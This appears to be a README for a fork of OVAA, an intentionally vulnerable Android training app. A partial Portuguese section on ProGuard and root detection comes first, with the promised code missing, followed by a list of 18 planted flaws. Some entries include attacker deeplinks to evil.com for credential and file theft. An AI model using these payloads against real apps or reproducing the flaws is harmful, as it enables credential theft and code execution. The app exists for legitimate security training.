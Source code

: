 ## Description


# 🔒 Segurança no Aplicativo - ProGuard, Debug e Root Detection

Este projeto implementa diversas técnicas de segurança para **proteger contra engenharia reversa**, **detectar root e depuração**, além de **ativar a ofuscação de código com ProGuard**.

---

## 🚀 **Funcionalidades de Segurança Implementadas**
✅ **ProGuard ativado** para ofuscação de código  
✅ **Verificação de Debug (Prevenção de Análise)**  
✅ **Detecção de Root (Bloqueio de dispositivos rooteados)**  
✅ **Script para injetar segurança automaticamente**  

---

## 🔹 **1. Ativando o ProGuard (Ofuscação de Código)**

O **ProGuard** está ativado para garantir que o código seja **ofuscado**, dificultando a engenharia reversa.

📂 **Alterações no arquivo `app/build.gradle`**:
```gradle
buildTypes {
    release {
        minifyEnabled true  // 🔹 Ativa a ofuscação
        shrinkResources true // 🔹 Remove recursos não utilizados
        proguardFiles getDefaultProguardFile('proguard-android-optimize.txt'), 'proguard-rules.pro'
    }
}
```

📂 **Alterações no arquivo `proguard-rules.pro`**:

# 🔒 Impede que classes de segurança sejam removidas
-keep class oversecured.ovaa.activities.MainActivity { *; }

# 🔒 Ofusca todas as classes do app, exceto as Activities
-keep public class * extends android.app.Activity
-dontwarn android.support.**

📌 Como testar se o código foi ofuscado?
Gere a versão release do APK:
```
./gradlew assembleRelease
```
Verifique o arquivo mapping.txt (gera os nomes ofuscados):
```
cat app/build/outputs/mapping/release/mapping.txt
```

🔹 2. Detecção de Debug (Proteção Contra Engenharia Reversa)
O app detecta se está sendo executado em um dispositivo rooteado e encerra a execução caso positivo.

📂 Alterações no MainActivity.java

Aproveite 🛡✨

###
OVAA (Oversecured Vulnerable Android App) is an Android app that aggregates all the platform's known and popular security vulnerabilities.

## List of vulnerabilities
This section only includes the list of vulnerabilities, without a detailed description or proof of concept. Examples from OVAA will receive detailed examination and analysis on [our blog](https://blog.oversecured.com/).

1. Installation of an arbitrary `login_url` via deeplink `oversecured://ovaa/login?url=http://evil.com/`. Leads to the user's user name and password being leaked when they log in.
2. Obtaining access to arbitrary content providers (not exported, but with the attribute `android:grantUriPermissions="true"`) via deeplink `oversecured://ovaa/grant_uri_permissions`. The attacker's app needs to process `oversecured.ovaa.action.GRANT_PERMISSIONS` and pass intent to `setResult(code, intent)` with flags such as `Intent.FLAG_GRANT_READ_URI_PERMISSION` and the URI of the content provider.
3. Vulnerable host validation when processing deeplink `oversecured://ovaa/webview?url=...`.
4. Opening arbitrary URLs via deeplink `oversecured://ovaa/webview?url=http://evilexample.com`. An attacker can use the vulnerable WebView setting `WebSettings.setAllowFileAccessFromFileURLs(true)` in the `WebViewActivity.java` file to steal arbitrary files by sending them XHR requests and obtaining their content.
5. Access to arbitrary activities and acquiring access to arbitrary content providers in `LoginActivity` by supplying an arbitrary Intent object to `redirect_intent`.
6. Theft of arbitrary files in `MainActivity` by intercepting an activity launch from `Intent.ACTION_PICK` and passing the URI to any file as data.
7. Insecure broadcast to `MainActivity` containing credentials. The attacker can register a broadcast receiver with action `oversecured.ovaa.action.UNPROTECTED_CREDENTIALS_DATA` and obtain the user's data.
8. Insecure activity launch in `MainActivity` with action `oversecured.ovaa.action.WEBVIEW`, containing the user's encrypted data in the query parameter `token`.
9. Deletion of arbitrary files via the insecure `DeleteFilesSerializable` deserialization object.
10. Memory corruption via the `MemoryCorruptionParcelable` object.
11. Memory corruption via the `MemoryCorruptionSerializable` object.
12. Obtaining read/write access to arbitrary files in `TheftOverwriteProvider` via path-traversal in the value `uri.getLastPathSegment()`.
13. Obtaining access to app logs via `InsecureLoggerService`. Leak of credentials in `LoginActivity` `Log.d("ovaa", "Processing " + loginData)`.
14. Use of the hardcoded AES key in `WeakCrypto`.
15. Arbitrary Code Execution in `OversecuredApplication` by launching code from third-party apps with no security checks.
16. Use of very wide file sharing declaration for `oversecured.ovaa.fileprovider` content provider in `root` entry.
17. Hardcoded credentials to a dev environment endpoint in `strings.xml` in `test_url` entry.
18. Arbitrary code execution via a DEX library located in a world-readable/writable directory.

---------------------------------------
*Licensed under the Simplified BSD License*

*Copyright (c) 2020, Oversecured Inc*

https://oversecured.com/
